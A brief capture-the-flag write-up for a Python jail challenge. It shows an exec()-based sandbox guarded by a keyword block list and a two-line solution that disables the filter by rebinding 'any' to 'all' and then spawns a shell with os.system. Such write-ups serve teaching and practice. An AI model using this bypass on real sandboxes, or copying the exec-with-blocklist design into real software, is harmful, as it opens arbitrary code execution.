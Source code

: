 # my little jail

## challenge

```py
flag = "ictf{REDACTED}"

def execute():
    try:
        command = input("> ")
        if command in ['exit', 'quit']:
            return False

        # Disallow certain keywords and built-in methods
        disallowed = ['.','help','__', 'import', 'eval', 'exec', 'os', 'sys', 'open']
        if any(x in command for x in disallowed):
            print("Error: Command not allowed!")
            return True
        
        # Execute command
        result = exec(command)
        if result:
            print(result)
        return True
    except Exception as e:
        print(f"Error")
        return True

if __name__ == "__main__":
    print("Welcome to the Python Jail! You can execute any Python command.")
    print("The goal is to reveal the flag. Type 'exit' or 'quit' to leave.")
    while execute():
        pass
```

## solution

replace any with all in the globals and then win

also exec doesnt return anything idk why the printing case is there

```
> globals()['any']=all
> __import__('os').system('sh')
```
